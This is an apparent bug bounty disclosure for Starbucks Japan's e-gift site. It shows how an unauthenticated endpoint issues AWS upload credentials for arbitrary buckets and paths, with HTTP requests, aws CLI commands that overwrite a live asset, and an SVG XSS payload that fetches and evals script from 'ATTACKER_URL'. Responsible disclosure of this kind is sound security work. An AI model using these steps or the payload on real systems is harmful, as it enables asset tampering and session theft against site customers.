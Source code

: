 ```yaml
---
attachments: [Screenshot 2025-02-03 at 2.23.15 AM.png]
title: 'Stored XSS: Misconfigured endpoint allows generation of AWS creds for arbitrary file upload to user-specified S3 bucket and path'
created: '2025-02-02T15:19:04.993Z'
modified: '2025-02-03T05:18:21.145Z'
---
```


# Stored XSS: Misconfigured endpoint allows generation of AWS creds for arbitrary file upload to user-specified S3 bucket and path

## Starbucks Japan 03/02/2025

## Summary:
- This vulnerability allows unauthenticated users to generate temporary AWS creds for arbitrary file upload to user-specified S3 bucket and path
- Existing assets at gift.starbucks.co.jp can be overwritten by the user and replaced with malicious files to engage a stored XSS attack against any customers visiting the site, for example, retrieving session IDs and other cookies to perform actions on behalf of other customers and/or accessing sensitive data (e.g. credit card info)
- Malicious files could also be uploaded to strategic bucket/filepath locations in the hopes of company employees/engineers with S3 access accidentally downloading and/or executing them
- The gift card service can also be interrupted by replacing the assets with empty/invalid files or otherwise offensive material

## Steps To Reproduce:
- Any unauthenticated user can navigate to https://www.starbucks.co.jp/group_egift/ and hit the `寄せ書きをつくる` button to generate a new group gift.

- The user can then select the option to upload their own image for the card design.

- This reveals the `/upload_token` endpoint as a POST request is fired off with a payload containing a hardcoded bucket `prd-sbj-egift-user-images-draft` and generated filepath (based off the group gift ID, I think), similar to the one below. This request only requires the `_session_id` cookie and `X-Csrf-Token` header which is why this can be leveraged without being logged into an account.

```
POST /upload_token HTTP/2
Host: gift.starbucks.co.jp
Cookie: _session_id=2970947...;
Content-Type: application/json;charset=utf-8
X-Csrf-Token: T1ZpeY+3eDlS2...

{
  "bucket_name": "prd-sbj-egift-user-images-draft",
  "filepath":"send_to/send_to-1738510879046....jpeg"
}
```

- The response contains the generated temporary AWS credentials with appropriate permissions to upload the image file to the specified bucket and path (obviously these creds have been truncated and are no longer valid).

```json
{
  "access_key_id":"ASIAXORN27VLT35SFYDM",
  "secret_access_key":"FBYwhuhZoxay4kZ...",
  "session_token":"IQoJb3JpZ2luX2VjEOj...",
  "upload_file_name":"send_to/send_to-1738510879046...jpeg"
}
```

- The bucket name and filepath parameters are seemingly not checked at all, making it possible to generate upload creds for any bucket and location that we choose. We can demonstrate this by replaying the upload token request and modifying the body as below.

```json
{
  "bucket_name": "prd-sbj-egift-user-images-draft",
  "filepath": "kryn3n/hacked.txt"
}
```

- Now lets see if we can use our AWS credentials to get authenticated on the command line. First we can export our creds and run a simple `whoami`.

```bash
export AWS_ACCESS_KEY_ID=ASIAXORN27VLT35SFYDM
export AWS_SECRET_ACCESS_KEY=FBYwhuhZoxay4kZ...
export AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjEOj...

aws whoami
```

- Looks like we're authenticated as `sbj-egift-web`, nice!

```json
{
    "UserId": "512270990679:sbj-egift-web",
    "Account": "512270990679",
    "Arn": "arn:aws:sts::512270990679:federated-user/sbj-egift-web"
}
```

- Now lets upload our "malicious" 😉🏴‍☠️ file to the path we specified in our upload token request using the aws cli.

```bash
aws s3api put-object \
  --bucket "prd-sbj-egift-user-images-draft" \
  --key "hackerone/kryn3n/hacked.txt" \
  --body ./hacked.txt
```
- Looks like the file was uploaded without any complaints.
```json
{
    "Expiration": "expiry-date=\"Sat, 15 Mar 2025 00:00:00 GMT\", rule-id=\"user-upload-images-lifecycle-rule\"",
    "ETag": "\"9226b53bfe04b2aae262a6fdf26e9af5\"",
    "ServerSideEncryption": "AES256",
    "VersionId": "zDiSGKrV7v3h1NT_fPzfJLQVS3tNMJ3i"
}
```

- Let's see if we can curl our new file down.

```bash
curl prd-sbj-egift-user-images-draft.s3-ap-northeast-1.amazonaws.com/hackerone/kryn3n/hacked.txt \
  -H "Referer:https://gift.starbucks.co.jp/" 
````
```
you've been hacked :) [kryn3n@wearehackerone.com]
```

- Great success! Let's see if there are any other existing buckets that we can target... Poking around a bit more, we can see another hardcoded bucket `e-gifts.s3.ap-northeast-1.amazonaws.com` which seems to hold all of the gift card design assets.
- Following the same procedure, we are able to request an upload token for this new bucket and a filepath matching an existing asset using the payload below.

```json
{
  "bucket_name": "e-gifts",
  "filepath": "eg_cover_design_assets/touka_intro_cheers_2/celebrate02_select_thumb-120x160.gif"
}
```
- Exporting the new credentials, we can perform another `put-object` to overwrite the existing asset.

```bash
aws s3api put-object \
  --bucket "e-gifts" \
  --key "eg_cover_design_assets/touka_intro_cheers_2/celebrate02_select_thumb-120x160.gif" \
  --body ./laptop_cat.gif
```

- Again, the file is uploaded without an issue and successfully overwrites the existing asset.
```json
{
    "ETag": "\"09a5bc4683984718afe9688bdecc9ce2\"",
    "ServerSideEncryption": "AES256"
}
```

## Impact

## Summary:
- This is obviously a security risk as the gift card assets are loaded by anyone visiting the group gift creation page, which presents the opportunity of a stored XSS attack. With the ability to overwrite any of these assets with our own files we could potentially cause a script to run in another customer's browser/app to steal their session ID cookie and use that to perform actions against their account. 

- An example of this could be overwriting one of the assets with a XML/SVG image containing an embedded malicious script as shown below. This way customers would not notice anything out of the ordinary when visiting the site as we could repurpose an existing SVG asset.

```xml
<xml>
    <text>
        hello
        <img
            src="1"
            onerror="fetch('ATTACKER_URL/script.js').then((a) => a.text().then((b) => eval(b)))"
            xmlns="http://www.w3.org/1999/xhtml"
        />
    </text>
</xml>
```

- Aside from the above, there is also the potential to generally disrupt the service by overwriting all assets with invalid or empty files and/or display offensive imagery, etc.

